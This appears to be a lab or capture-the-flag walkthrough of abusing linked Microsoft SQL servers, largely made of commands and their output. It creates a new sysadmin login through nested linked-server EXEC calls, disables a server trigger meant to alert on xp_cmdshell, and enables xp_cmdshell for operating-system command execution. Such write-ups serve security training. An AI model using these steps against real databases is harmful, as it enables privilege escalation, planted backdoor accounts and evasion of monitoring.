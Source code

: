 ```sql
```
>[!important] `sa` is super admin if we check the privileges we can see all of them
```sql
SELECT * FROM OPENQUERY([compatibility\poo_config], 'SELECT * FROM OPENQUERY([compatibility\poo_public], ''SELECT permission_name FROM fn_my_permissions(NULL, ''''SERVER'''')'')');
```
>[!danger] Lets create a new super user by using `exec`
```sql
EXEC ('EXEC (''EXEC sp_addlogin ''''b0llull0s'''', ''''tokyo123!'''''') at [COMPATIBILITY\POO_PUBLIC]') at [COMPATIBILITY\POO_CONFIG];
```
>[!danger] Assign `sysadmin` role
```sql
EXEC ('EXEC (''EXEC sp_addsrvrolemember ''''b0llull0s'''', ''''sysadmin'''''') at [COMPATIBILITY\POO_PUBLIC]') at [COMPATIBILITY\POO_CONFIG];
```
>[!important] Start a new session with our brand new user
```sh
mssqlclient.py b0llull0s:'tokyo123!'@10.13.38.11
```
>[!bug] List all the databases again
```sql
select name from sysdatabases;
```
>[!tip] This time we can see the flag
```sql
----------
master

tempdb

model

msdb

POO_PUBLIC

flag
```
>[!info] There is only one table called also flag inside
```sql
select name from flag.sys.tables;
```
>[!danger] Read the flag
```sql
select * from flag.dbo.flag;
```
# Backtrack

>[!tip] Now that we are `sa` we should try to enable `xp_cmdshell` to execute commands
```sql
enable_xp_cmdshell
```
>[!warning] But we got an error due to the server triggers
```
[-] ERROR(COMPATIBILITY\POO_PUBLIC): Line 11: Attempt to enable xp_cmdshell
```
>[!bug] Simply disable `alert_xp_cmdshell`
```mysql
select name from sys.server_triggers;
disable trigger alert_xp_cmdshell on all server;
```
>[!tip] And now we can `enable_xp_cmdshell`
```
enable_xp_cmdshell
```
>[!bug] Now using `xp_cmdshell` we can execute command as `nt service`